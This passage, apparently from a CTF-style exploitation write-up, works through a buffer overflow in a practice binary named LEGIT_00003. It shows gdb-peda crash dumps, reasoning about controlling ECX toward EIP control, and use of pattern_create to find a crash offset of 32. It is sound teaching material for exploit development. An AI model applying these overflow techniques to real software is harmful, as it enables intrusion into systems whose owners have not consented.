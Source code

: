 ```
ESI: 0xbaaaaf0c ('A' <repeats 46="" times="">, "\004\b\202\257\252\272\002")
EDI: 0x0 
EBP: 0xbaaaaed4 --> 0xbaaaaf34 ("AAAAAA\004\b\202\257\252\272\002")
ESP: 0xbaaaaec4 --> 0x0 
EIP: 0x8048201 (mov    BYTE PTR [ecx+eax*1],dl)
EFLAGS: 0x10297 (CARRY PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80481f8:  mov    dl,BYTE PTR [ecx+eax*1]
   0x80481fb:  mov    eax,DWORD PTR [ebp-0x10]
   0x80481fe:  mov    ecx,DWORD PTR [ebp-0x4]
=> 0x8048201:  mov    BYTE PTR [ecx+eax*1],dl
   0x8048204:  mov    eax,DWORD PTR [ebp-0x10]
   0x8048207:  add    eax,0x1
   0x804820c:  mov    DWORD PTR [ebp-0x10],eax
   0x804820f:  jmp    0x80481e6
[------------------------------------stack-------------------------------------]
0000| 0xbaaaaec4 --> 0x0 
0004| 0xbaaaaec8 --> 0x2e ('.')
0008| 0xbaaaaecc --> 0xbaaaaf0c ('A' <repeats 46="" times="">, "\004\b\202\257\252\272\002")
0012| 0xbaaaaed0 ("AAAA4\257\252\272\060\203\004\bAAAA\f\257\252\272.")
0016| 0xbaaaaed4 --> 0xbaaaaf34 ("AAAAAA\004\b\202\257\252\272\002")
0020| 0xbaaaaed8 --> 0x8048330 (add    esp,0x54)
0024| 0xbaaaaedc ("AAAA\f\257\252\272.")
0028| 0xbaaaaee0 --> 0xbaaaaf0c ('A' <repeats 46="" times="">, "\004\b\202\257\252\272\002")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08048201 in ?? ()
gdb-peda$ 
```

Ok no EIP control on our first attempt. No big deal but EIP control is mandatory for a Type1 proof of vulnerability so we need that. We crashed on an attempt to load memory at an address of ECX+EAX*1. We can see our ECX register is set to “0x41414141” so we can say we can control ECX. EAX is 0x00 at the time of the crash so if we insert a valid address into ECX we will make it past this crash onto greener pastures? Who can say. Let’s try it!

I use PEDA’s pattern create to find our crash offset:

```
gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /home/vagrant/LEGIT_00003/legit_00003 
1) Gimme Name
2) Print Name
3) Exit
: 1
Enter Name: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
Program received signal SIGSEGV, Segmentation fault.
----------------------------------registers-----------------------------------]
EAX: 0x0 
ECX: 0x41412941 ('A)AA')
EIP: 0x8048201 (mov    BYTE PTR [ecx+eax*1],dl)
[-------------------------------------code-------------------------------------]
=> 0x8048201:  mov    BYTE PTR [ecx+eax*1],dl
[------------------------------------stack-------------------------------------]
0012| 0xbaaaaed0 ("A)AA4\257\252\272\060\203\004\bA)AA\f\257\252\272\060")
[------------------------------------------------------------------------------]
Stopped reason: SIGSEGV
0x08048201 in ?? ()
gdb-peda$ pattern_offset 0x41412941
1094789441 found at offset: 32
```
